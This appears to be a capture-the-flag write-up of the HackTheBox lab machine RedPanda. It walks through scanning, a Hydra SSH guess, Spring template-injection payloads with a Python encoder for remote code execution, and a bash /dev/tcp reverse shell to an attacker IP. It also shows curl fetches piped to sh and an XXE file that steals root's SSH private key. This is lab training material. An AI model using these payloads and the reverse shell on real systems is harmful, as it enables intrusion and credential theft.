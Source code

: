 # RedPanda    
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ directory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.  
**DEAD END:** Browsing site showed nothing interesting in source.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specifically $) are blacklisted by the server.

### Creating a RCE
The nmap scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with *
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Invoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -nvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

### Connected with reverse shell as woodenk
Time for some basic enumeration on panda and woodenk
```
find / -name "*panda*" 2>/dev/null
find / -name "*woodenk*" 2>/dev/null
```

This gives us a source code directory (maybe some nice config info) and user XML files in /credits  

```
cd /opt/panda_search
find . -type f -exec grep -H 'woodenk' {} \;
```

This gives mysql connection info and 'woodenk' embedded in some images  

`./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");`


Try LinPEAS to find escalation  
From github to your attacking machine (HTB machines don't resolve WWW domains)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
On target machine upload linPEAS
```
curl -L http://10.10.14.2:8000/linpeas.sh | sh
```
**DEAD END** nothing I saw for OS level escalation  

### MySQL dump
```
mysqldump -u woodenk -pRedPandazRule red_panda 
```
This tells us the "panda" table has four fields (name, bio, imgloc, author)

ROOT requires XXE (this is just crib notes)
Full walkthrough [here](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)

XXE.1 Set the "artist" value in an attack image
```
exiftool -Artist="../tmp/gg" pe_exploit.jpg
```

XXE.2 Create `gg_creds.xml` with the following content
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```

XXE.3 upload files and modify the redpanda.log
```
wget 10.10.ATTACKER.IP/pe_exploit.jpg -P /tmp
wget 10.10.ATTACKER.IP/gg_creds.xml -P /tmp
echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log
```

In minute or two /tmp/gg_creds.xml is updated
```
cat /tmp/gg_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNza...cut...mVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>3</totalviews>
</credits>
```

Put the `foo` element value into a file `le_key.txt` and login as root
```
chmod 600 ./le_key.txt
ssh root@redpanda.htb -i le_key.txt
```

### ROOT SUCCESS!
